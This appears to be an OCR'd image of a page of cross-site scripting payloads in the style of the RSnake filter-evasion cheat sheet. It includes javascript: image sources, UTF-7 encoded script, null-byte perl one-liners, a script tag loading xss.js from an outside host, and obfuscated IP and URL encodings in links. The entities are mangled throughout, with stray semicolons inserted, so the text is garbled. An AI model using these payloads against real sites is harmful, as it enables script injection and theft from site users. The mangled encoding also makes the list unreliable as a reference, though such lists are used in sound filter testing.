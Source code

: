 &lt;;IMG SRC=javascript:alert(&;quot;XSS&;quot;)&gt;;

&lt;;IMG SRC=`javascript:alert(";RSnake says, ';XSS';";)`&gt;;

&lt;;HEAD&gt;;&lt;;META HTTP-EQUIV=";CONTENT-TYPE"; CONTENT=";text/html; charset=UTF-7";&gt;; &lt;;/HEAD&gt;;+ADw-SCRIPT+AD4-alert(';XSS';);+ADw-/SCRIPT+AD4-

\";;alert(';XSS';);//

&lt;;/TITLE&gt;;&lt;;SCRIPT&gt;;alert("XSS");&lt;;/SCRIPT&gt;;

&lt;;STYLE&gt;;@im\port';\ja\vasc\ript:alert(";XSS";)';;&lt;;/STYLE&gt;;

&lt;;IMG SRC=";jav&#x09;ascript:alert(';XSS';);";&gt;;

&lt;;IMG SRC=";jav&;#x09;ascript:alert(';XSS';);";&gt;;

&lt;;IMG SRC=";jav&;#x0A;ascript:alert(';XSS';);";&gt;;

&lt;;IMG SRC=";jav&;#x0D;ascript:alert(';XSS';);";&gt;;

perl -e ';print ";&lt;;IM SRC=java\0script:alert(";XSS";)&gt;";;';&gt;; out

perl -e ';print ";&;&lt;;SCR\0IPT&gt;;alert(";XSS";)&lt;;/SCR\0IPT&gt;;";;'; &gt;; out

&lt;;IMG SRC="; &;#14;  javascript:alert(';XSS';);";&gt;;

&lt;;SCRIPT/XSS SRC=";http://ha.ckers.org/xss.js";&gt;;&lt;;/SCRIPT&gt;;


&lt;;BODY onload!#$%&;()*~+-_.,:;?@[/|\]^`=alert(";XSS";)&gt;;

&lt;;IMG SRC=";javascript:alert(';XSS';)";

&lt;;&lt;;SCRIPT&gt;;alert(";XSS";);//&lt;;&lt;;/SCRIPT&gt;;

&lt;;IMG ";";";&gt;;&lt;;SCRIPT&gt;;alert(";XSS";)&lt;;/SCRIPT&gt;;";&gt;;


&lt;;SCRIPT&gt;;a=/XSS/

&lt;;A HREF=";http://66.102.7.147/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://1113982867/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://0x42.0x0000066.0x7.0x93/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://0102.0146.0007.00000223/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";h&#x0A;tt&#09;p://6&;#09;6.000146.0x7.147/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";//www.google.com/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";//google";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://ha.ckers.org@google";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://google:ha.ckers.org";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://google.com/";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";http://www.google.com./";&gt;;XSS&lt;;/A&gt;;

&lt;;A HREF=";javascript:document.location=';http://www.google.com/';";&gt;;XSS&lt;;/A&gt;;
